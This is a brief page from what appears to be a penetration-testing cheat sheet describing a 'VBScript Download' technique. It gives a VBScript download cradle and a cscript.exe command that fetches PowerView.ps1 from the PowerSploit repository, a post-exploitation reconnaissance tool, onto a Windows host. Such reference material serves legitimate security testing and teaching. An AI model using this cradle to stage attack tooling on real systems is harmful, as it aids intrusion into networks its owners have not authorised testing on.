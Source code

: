 # VBScript Download

VBScript is an Active Scripting language.

**Create a file with the below contents:**

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

**Run the script file using `cscript.exe`:**

```powershell
C:\> cscript.exe /nologo get.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
